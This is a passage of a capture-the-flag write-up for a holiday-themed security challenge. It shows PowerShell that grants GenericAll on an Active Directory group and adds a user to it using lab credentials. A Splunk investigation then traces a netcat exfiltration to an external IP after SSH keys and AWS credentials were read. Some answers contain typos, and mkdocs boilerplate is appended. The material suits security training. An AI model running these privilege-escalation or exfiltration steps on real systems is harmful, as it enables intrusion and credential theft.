$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
We can verify if the GenericAll permission has been added for user "rflkkildwi" for AD group "Research Department"
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])

Using remote_elf, add user "rflkkildwi" to the identified AD group.
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "rflkkildwi"
$password = "Pvwevsviq#"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
We can verify if the user "rflkkildwi" to the "Research Department" group.
Get-ADGroupMember -Identity 'ResearchDepartment' | Where-Object {$_.name -eq "rflkkildwi"}
Access the secret document
At this point rflkkildwi is added to the "Research Department" group.
So now we can access the document in the share '\172.17.0.5\research_dep' using "rflkkildwi" .
smbclient '\\172.17.0.5\research_dep'
Also can download the PDF from the share to the grade.elfu.local.
Change the shell to bin/bash on the grades.elfu.org session
Enter chsh to change your shell to /bin/bash.
chsh
From local kali box download the document from the grades.elfu.org.
Open the PDF locally to see the 1st secret ingredient – kindness
We use that as the answer for the objective and now the objective is completed.
9. Splunk
|
Challenge : Help Angel Candysalt solve the Splunk challenge in Santa's great hall. Fitzy Shortstack is in Santa's lobby, and he knows a few things about Splunk. What does Santa call you you complete the analysis? |
||
|
Difficulty Level : |
Location : Great Room |
Elf/Troll : Angel Candysalt |
|
Hints from Andy Candysalt Anywho, I'm back at Santa’s Splunk terminal again this year. There's always more to learn! Take a look and see what you can find this year. With who-knows-what going on next door, it never hurts to have sharp SIEM skills!. Website: https://hhc21.bossworkshops.io/en-US/app/SA-hhc/santadocs |
|
Task 1
Capture the commands Eddie ran most often, starting with git.
Looking only at his process launches as reported by Sysmon, record the most common git-related CommandLine that Eddie seemed to use.
Analysis
Splunk Query
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational CommandLine="git*"
| stats count by CommandLine
| sort count desc
Answer
git status
Task 2
Looking through the git commands Eddie ran, determine the remote repository that he configured as the origin for the 'partnerapi' repo.
The correct one!
Analysis
Referred the below article on how to add a remote repository :
https://docs.github.com/en/get-started/getting-started-with-git/managing-remote-repositories
The git remote add command takes two arguments:
- A remote name, for example, origin
- A remote URL, for example, https://github.com/user/repo.git
Splunk Query
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational eddie partnerapi
CommandLine="*git remote add*"
Answer
git remote add
Task 3
Eddie was running Docker on his workstation. Gather the full command line that Eddie used to bring up a the partnerapi project on his workstation.
Analysis
How to start and run the app on docker.
docker compose up
Ref : Docker docs
"Run docker compose up and the Docker compose command starts and runs your entire app"
Splunk Query
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational eddie partnerapi Computer="emcjingles-l" CommandLine="docker compose up"
Answer
docer compose up
Task 4
Eddie had been testing automated static application security testing (SAST) in GitHub. Vulnerability reports have been coming into Splunk in JSON format via GitHub webhooks.
Search all the events in the main index in Splunk and use the sourcetype field to locate these reports.
Determine the URL of the vulnerable GitHub repository that the elves cloned for testing and document it here.
You will need to search outside of Splunk (try GitHub) for the original name of the repository.
Analysis
First we check how many Git repositories have been used
index=main sourcetype=github_json | stats values(repository.git_url)
Above shows two github repositories.
| github.com/elfnp3/partnerapi.git | github.com/elfnp3/dvws-node.git |
|---|---|
|  |
But the question is "Determine the URL of the vulnerable GitHub repository that the elves cloned for testing"
If we look at the elfnp3/dvws-node, looks like its cloned from snoopysecurity/dvws-node.

snoopysecurity/dvws-node is the "Damn Vulenerable Web Services"
Therefore the answer would be https://github.com/snoopysecurity/dvws-node

Answer
https://github.com/snoopysecurity/dvws-node
Task 5
Santa asked Eddie to add a JavaScript library from NPM to the 'partnerapi' project.
Determine the name of the library and record it here for our workshop documentation.
Analysis
https://docs.npmjs.com/cli/v8/commands/npm-install
npm install
Splunk query
index=main eddie CommandLine="*npm install*" partnerapi

Answer
holiday-utils-js
Task 6
Another elf started gathering a baseline of the network activity that Eddie generated.
Start with their search and capture the full process_name field of anything that looks suspicious.
Analysis
If we look at the search provided in the task
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=3 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443)
| stats count by dest_ip dest_port
The IP address 192.30.255.113 belongs to github and It us called from the git process(usr/bin/git).
But the IP 54.175.69.219 belongs to AWS.
Most importantly It is being called from /usr/bin/nc.openbsd which can be used for making arbitrary TCP and UDP connections and listens.
[ref : https://manpages.debian.org/stretch/netcat-penbsd/nc.openbsd.1
This may be a suspicious action and may be potential reverse shell.
Therefore the suspicious process name would be /usr/bon/nc.openbsd.
Answer
/usr/bon/nc.openbsd
Task 7
Uh oh. This documentation exercise just turned into an investigation.
Starting with the process identified in the previous task, look for additional suspicious commands launched by the same parent process.
One thing to know about these Sysmon events is that Network connection events don't indicate the parent process ID, but Process creation events do!
Determine the number of files that were accessed by a related process and record it here.
Analysis
Searching for the "/usr/bin/nc.openbsd" process
index=main process_name="/usr/bin/nc.openbsd"
We see command line nc.openbsd ran the commandline "nc -q1 54.175.69.219 16842".
Which means it connects to the IP address 54.175.69.219 on port 16842.
The parent process here is 6788.
Now if we look for ParentProcessId 6788.
index=main ParentProcessId=6788
We see 6 files being red via /usr/bin/cat
- /home/eddie/.aws/credentials
- /home/eddie/.ssh/authorized_keys
- /home/eddie/.ssh/config
- /home/eddie/.ssh/eddie
- /home/eddie/.ssh/eddie.pub
- /home/eddie/.ssh/known_hosts
So, the answer is 6.

Answer
6
Task 8
Use Splunk and Sysmon Process creation data to identify the name of the Bash script that accessed sensitive files and (likely) transmitted them to a remote IP address.
Determine the number of files that were accessed by a related process and record it here.
Analysis
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational user=eddie process="*bash*" CommandLine="/bin/bash *" | table CommandLine
From sysmon process creation data, there is only one bash script which got executed.
(index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 CommandLine="*.sh" ParentCommandLine="/bin/sh")
OR
(index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=3 process_name="/bin/sh")
| fields ProcessId,ProcessID,ProcessGuid,CommandLine,process_current_directory,dest
| stats values(ProcessId) as ProcessId values(ProcessID) as ProcessID values(CommandLine) as CommandLine values(process_current_directory) as process_current_directory values(dest) as dest by ProcessGuid
Objective complete
On submitting answer to the task 8, we get the below text :
Thank you for helping Santa complete this investigation! Santa says you're a whiz
We submit whiz as the answer for the objective #9 and Its accepted.

10. Now Hiring
11. Customer Complaint Analysis
12. Frost Tower Website Checkup
13. FPGA Programming
mkdocs new [dir-name]- Create a new project.mkdocs serve- Start the live-reloading docs server.mkdocs build- Build the documentation site.-
mkdocs -h- Print help message and exit.mkdocs.yml # The configuration file. docs/ index.md # The documentation homepage. ... # Other markdown pages, images and other files.